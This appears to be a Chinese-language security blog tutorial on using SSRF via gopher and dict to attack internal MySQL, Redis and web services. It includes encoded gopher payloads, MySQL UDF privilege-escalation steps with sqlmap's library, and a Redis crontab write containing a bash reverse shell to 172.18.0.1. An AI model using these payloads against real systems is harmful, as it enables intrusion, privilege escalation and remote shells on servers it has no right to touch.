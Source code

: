 ```yaml
---
layout:     post
title:      SSRF 攻击内网服务
subtitle:   通过ssrf 针对mysql和redis 进行攻击
date:       2020-05-27
author:     BY Diego
header-img: img/wenzhang/post-by-ssrf攻击内网服务.jpg
catalog: true
tags:
    - SSRF
    - Mysql
    - Redis
---
```


# 一、 SSRF to Mysql

## ① 无密码登入

利用条件：已知一个无密码账户的用户名。

搭建一个同版本的mysql，创建一个同用户名的无密码账户。
可能需要取消ssl，在配置文件里的\[mysqld]下添加skip_ssl

抓包
```bash
tcpdump -i lo port 3306 -w mysql.pcapng
```


```bash
mysql -h 127.0.0.1 -u root -p #登入
mysql> show databases;
mysql> exit
```

分析流量，把login 一条的发送流转化成原始数据
[![tCGbB6.png](https://s1.ax1x.com/2020/05/25/tCGbB6.png)](https://imgchr.com/i/tCGbB6)


[![tCGHnx.png](https://s1.ax1x.com/2020/05/25/tCGHnx.png)](https://imgchr.com/i/tCGHnx)

![tCGj4e.png](https://s1.ax1x.com/2020/05/25/tCGj4e.png)

然后将数据url编码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join()
```

![tCJvZV.png](https://s1.ax1x.com/2020/05/25/tCJvZV.png)

然后二次编码得到如下
```
%25c5%2500%2500%2501%2505%25a6%25ff%2501%2500%2500%2500%2501%25ff%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2564%2569%2565%2567%256f%2500%2501%2500%2563%2561%2563%2568%2569%256e%2567%255f%2573%2568%2561%2532%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2586%2504%255f%2570%2569%2564%2505%2532%2535%2536%2534%2536%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%250b%256f%2573%255f%2573%2575%2564%256f%2575%2573%2565%2572%2505%2564%2569%2565%2567%256f%2507%256f%2573%255f%2575%2573%2565%2572%2505%2564%2569%2565%2567%256f%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2538%252e%2530%252e%2532%2530%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2521%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2540%2540%2576%2565%2572%2573%2569%256f%256e%255f%2563%256f%256d%256d%2565%256e%2574%2520%256c%2569%256d%2569%2574%2520%2531%250f%2500%2500%2500%2503%2573%2568%256f%2577%2520%2564%2561%2574%2561%2562%2561%2573%2565%2573%250e%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2575%2573%2565%2572%2528%2529%2501%2500%2500%2500%2501
```

利用 **gopher协议** 进行ssrf，构造?url=gopher://127.0.0.1:3306/_%2500......

![tCJXq0.png](https://s1.ax1x.com/2020/05/25/tCJXq0.png)

跟正常查询一致
![tCJOrq.png](https://s1.ax1x.com/2020/05/25/tCJOrq.png)

如果权限大 可以任意文件读取或者写webshell
![tCtApQ.png](https://s1.ax1x.com/2020/05/25/tCtApQ.png)

## ② UDF 提权

利用上述方法在一定条件下也可实现

UDF 为 user defined function,及用户自定义函数

具体原理不细说，过程如下我这里利用的sqlmap自带的udf提权文件
位于sqlmap/data/udf/mysql 目录下
![tCaQtf.png](https://s1.ax1x.com/2020/05/25/tCaQtf.png)

现在的so_ 文件是被加密的，需要用sqlmap自带的解密脚本解密
位于qlmap/extra/cloak/cloak.py

```bash
python cloak.py -d -i lib_mysqludf_sys.so_ -o udf.so
```

查看目录 show variables like '%plugin%'; 然后把udf.so 放在文件夹下
![tCau7t.png](https://s1.ax1x.com/2020/05/25/tCau7t.png)
或者通过sql语句 写入（udf.so 转成hex）
```sql
select unhex('7F454C...') into dumpfile '目录'；
```

然后加载so
```sql
use mysql;
create function sys_eval returns string soname 'udf.so';
```


查看导入结果
```sql
use mysql;
select * from func;
```
![tCan0I.png](https://s1.ax1x.com/2020/05/25/tCan0I.png)

![tCaMAP.png](https://s1.ax1x.com/2020/05/25/tCaMAP.png)


# 二、SSRF to Redis

## ①未授权操作

若存在未授权的情况下
使用dict 或者 gopher 协议直接操作redis
![tAvZ0x.png](https://s1.ax1x.com/2020/05/27/tAvZ0x.png)

![tAvVn1.png](https://s1.ax1x.com/2020/05/27/tAvVn1.png)

![tAvAXR.png](https://s1.ax1x.com/2020/05/27/tAvAXR.png)

多语句执行，写计时任务gopher
```bash
\n\n\n
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
\n\n\n
```
二次编码
```
%250A%250A%250Aset%25201%2520%2522%255Cn%255Cn%255Cn%255Cn*%2520*%2520*%2520*%2520*%2520root%2520whoami%253E%252Ftmp%252Fwhoami%2520%255Cn%255Cn%255Cn%255Cn%2522%250Aconfig%2520set%2520dir%2520%252Fetc%252F%250Aconfig%2520set%2520dbfilename%2520crontab%250Asave%250A%250A%250A
```
[![tEBLTS.png](https://s1.ax1x.com/2020/05/27/tEBLTS.png)](https://imgchr.com/i/tEBLTS)

# 三、web 服务攻击

## ① 模拟post请求

test.php
```php
<?php
var_dump($_POST);
?>
```

curl 模拟构造想要的post数据
```bash
curl http://127.0.0.1:8888/test.php -X POST -d "aa=123456"
```

![tEaXxP.png](https://s1.ax1x.com/2020/05/27/tEaXxP.png)

url 二次编码
```
POST%2520/test.php%2520HTTP/1.1%250D%250AHost:%2520127.0.0.1%250D%250AUser-Agent:%2520curl/7.68.0%250D%250AAccept:%2520*/*%250D%250AContent-Length:%25209%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250A%250D%250Aaa=123456
```

结果如下
[![tEwDk4.png](https://s1.ax1x.com/2020/05/27/tEwDk4.png)](https://imgchr.com/i/tEwDk4)
